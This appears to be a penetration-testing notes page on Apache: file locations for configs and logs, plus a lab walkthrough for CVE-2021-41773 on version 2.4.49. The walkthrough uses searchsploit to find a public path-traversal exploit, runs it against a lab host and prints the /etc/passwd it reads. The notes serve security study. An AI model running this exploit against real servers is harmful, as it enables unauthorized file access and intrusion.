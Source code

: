 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Apache

## Directories

<table data-header-hidden><thead><tr><th width="122"></th><th>Location</th></tr></thead><tbody><tr><td><strong>Webroot</strong></td><td><code>/var/www/html/</code></td></tr><tr><td><strong>Config</strong></td><td><ul><li><code>/etc/apache2/apache2.conf</code> (Ubuntu)</li><li><code>/etc/httpd/conf/httpd.conf</code> (CentOS/RHEL/Fedora)</li></ul></td></tr><tr><td><strong>Logs</strong></td><td><ul><li><code>/var/log/apache2/</code> (Ubuntu)</li><li><code>/var/log/httpd/</code> (CentOS/RHEL/Fedora)</li></ul></td></tr></tbody></table>

## Versions

### 2.4.49

Vulnerable to [CVE-2021-41773](https://nvd.nist.gov/vuln/detail/cve-2021-41773).

{% code overflow="wrap" %}
```bash
# Search for public exploits
$ searchsploit Apache httpd 2.4.49
...
--------------------------------------------------------------------------
Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE) | multiple/webapps/50383.sh
--------------------------------------------------------------------------

# Create a file with the target's socket
$ echo "192.168.X.245:8000" > web01_ip.txt

# Exploit the target
$ ./50383.sh web01_ip.txt /etc/passwd
http://192.168.X.245:8000
root:x:0:0:root:/root:/bin/bash
...
miranda:x:1001:1001:Miranda:/home/miranda:/bin/sh
steven:x:1002:1002:Steven:/home/steven:/bin/sh
mark:x:1003:1003:Mark:/home/mark:/bin/sh
anita:x:1004:1004:Anita:/home/anita:/bin/sh
```
{% endcode %}

